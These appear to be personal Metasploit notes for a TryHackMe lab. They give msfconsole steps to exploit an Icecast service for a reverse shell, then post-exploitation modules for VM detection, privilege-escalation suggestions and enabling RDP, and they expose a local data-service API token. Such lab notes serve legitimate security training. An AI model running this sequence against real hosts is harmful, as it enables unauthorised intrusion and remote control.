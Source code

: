 # Metasploit Info

## Connection Information
If needed, manually reconnect to the data service in msfconsole using the command:
'''
db_connect --token 97762d57786fc19fa4a133c12cac2a604033cef6c228e630d84c216d2cbd3852e77144bc3151b6b7 --cert /home/andrew/.msf4/msf-ws-cert.pem --skip-verify https://localhost:5443
'''

## Api Account
The username and password are credentials for the API account:
'''
https://localhost:5443/api/v1/auth/account
'''

## Using msfconsole

'''
search icecast
use <number_for_exploit>
set LHOST <ip addr->tun0 inet>
set RHOSTS <TryHackMeBox IP>
exploit -or- run -j
--> Will end up with a reverse shell
'''

Determines if machine is a VM
'''
run post/windows/gather/checkvm
'''

Creates suggestions of exploits to elevate privledges
'''
run post/multi/recon/local_exploit_suggester
'''

Enables RDP (Remote Desktop Protocol)
'''
run post/windows/manage/enable_rdp
'''